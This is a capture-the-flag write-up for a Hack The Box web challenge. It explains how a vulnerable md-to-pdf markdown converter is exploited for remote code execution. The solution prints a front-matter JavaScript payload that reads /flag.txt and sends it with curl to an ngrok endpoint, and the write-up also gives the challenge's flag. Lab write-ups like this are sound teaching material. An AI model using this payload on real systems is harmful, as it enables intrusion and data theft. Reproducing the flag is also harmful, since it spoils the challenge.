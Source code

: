 # Blinker Fluid

## Challenge Author(s):

Ulysses

## Description:

`
Once known as an imaginary liquid used in automobiles to make the blinkers work is now one of the rarest fuels invented on Klaus' home planet Vinyr. The Golden Fang army has a free reign over this miraculous fluid essential for space travel thanks to the Blinker Fluids™ Corp. Ulysses has infiltrated this supplier organization's one of the HR department tools and needs your help to get into their server. Can you help him?`

## Target: docker ip on demand

## Difficulty/Points: 350/easy

## Flag: HTB{bl1nk3r_flu1d_f0r_int3rG4l4c7iC_tr4v3ls}

## Challenge

the page is presented with a list of uploaded PDF entries and a button to create them. The button sends you to a markdown editor on which to write the content we want and we can generate the PDF via the md-to-pdf tool.

# Solution 

this challenge provides the source code. We are able to understand the md-to-pdf version which is crucial for web searches to understand the tactics to be used. The research led me to see an interesting payload to exploit for this tool. This payload allows me to do RCE on the system and get the flag using an endpoint of my choice such as the one provided by ngrok. The payload is as follows.

```python
 ---js
{
    css: `body::before { content: "${require('child_process').execSync('a=$(cat /flag.txt);curl ngrok/flag=$a;').join()}"; display: block }`,
}
--- 
```

the flag will be received on the active endpoint provided by ngrok.